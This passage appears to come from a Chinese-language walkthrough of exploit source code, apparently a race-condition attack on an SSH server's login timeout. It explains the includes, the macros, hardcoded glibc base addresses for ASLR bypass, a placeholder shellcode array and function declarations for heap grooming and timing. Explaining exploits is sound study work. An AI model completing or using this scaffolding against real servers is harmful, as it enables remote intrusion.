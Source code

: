 ```
 */
```  
  
文件头部详细描述了漏洞的基本信息，包括漏洞编号、漏洞名称、作者、发布日期、漏洞类型和影响范围。同时，还对漏洞的原理和利用方法进行了简要说明。  
  
  
**2. 包含的头文件**  
```
#include <stdlib.h>
#include <unistd.h>
#include <time.h>
#include <string.h>
#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
```  
  
这些头文件包含了标准库函数和网络编程所需的函数和类型，如 socket、connect、send 等。  
  
  
**3. 定义宏和全局变量**  
```
#define MAX_PACKET_SIZE (256 * 1024)
#define LOGIN_GRACE_TIME 120
#define MAX_STARTUPS 100
#define CHUNK_ALIGN(s) (((s) + 15) & ~15)


// Possible glibc base addresses (for ASLR bypass)
uint64_t GLIBC_BASES[] = { 0xb7200000, 0xb7400000 };
int NUM_GLIBC_BASES = sizeof (GLIBC_BASES) / sizeof (GLIBC_BASES[0]);


// Shellcode placeholder (replace with actual shellcode)
unsigned char shellcode[] = "\\x90\\x90\\x90\\x90";
```  
```
MAX_PACKET_SIZE：定义最大数据包大小为256KB。
LOGIN_GRACE_TIME：定义登录宽限时间为120秒。
MAX_STARTUPS：定义最大启动数为100。
CHUNK_ALIGN：定义一个宏用于内存对齐。
GLIBC_BASES：定义可能的glibc基地址，用于绕过ASLR（地址空间布局随机化）。
shellcode：定义一个占位符shellcode，需要替换为实际的payload。
```  
  
**4. 函数声明**  
```
int setup_connection (const char *ip, int port);
void send_packet (int sock, unsigned char packet_type, const unsigned char *data, size_t len);
void prepare_heap (int sock);
void time_final_packet (int sock, double *parsing_time);
int attempt_race_condition (int sock, double parsing_time, uint64_t glibc_base);
```  
  